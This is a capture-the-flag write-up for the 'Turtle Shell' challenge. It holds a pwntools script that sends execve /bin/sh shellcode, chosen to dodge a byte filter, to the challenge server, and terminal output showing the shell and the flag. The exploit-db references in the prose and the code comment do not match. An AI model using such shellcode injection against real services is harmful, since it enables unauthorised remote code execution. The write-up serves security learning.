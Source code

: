 # Turtle Shell

![](2023-05-08-16-45-16.png)

We are given the compiled binary running on the server.

Upon connecting to the server, we can see what the service does:

![](2023-05-08-16-47-22.png)

So looks like it just takes in our input and thats it.

I decompiled the binary and it essentially checks to see if your input contains the byte sequence `xb0\x3b`. If it does, the program hangs. Otherwise, our input is executed.

Knowing this, we can input shellcode that does not contain that byte sequence.

I was able to find 64bit shellcode here: https://www.exploit-db.com/exploits/46907

I then wrote the following script to send the shellcode over and get the flag:

```py
from pwn import *

r = remote("turtle.sdc.tf", 1337)

print(r.recvuntil(b'shell\n'))


# https://www.exploit-db.com/exploits/42179
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

payload = shellcode

r.sendline(payload)
r.interactive()
```

```
┌──(kali㉿kali)-[~/ctf/sdctf]
└─$ python3 turtle.py
[+] Opening connection to turtle.sdc.tf on port 1337: Done
b'Say something to make the turtle come out of its shell\n'
[*] Switching to interactive mode
$ cat flag.txt
sdctf{w0w_y0u_m4d3_7h3_7urT13_c0m3_0u7_0f_1t5_5h3l1}
```

Flag: `sdctf{w0w_y0u_m4d3_7h3_7urT13_c0m3_0u7_0f_1t5_5h3l1}`
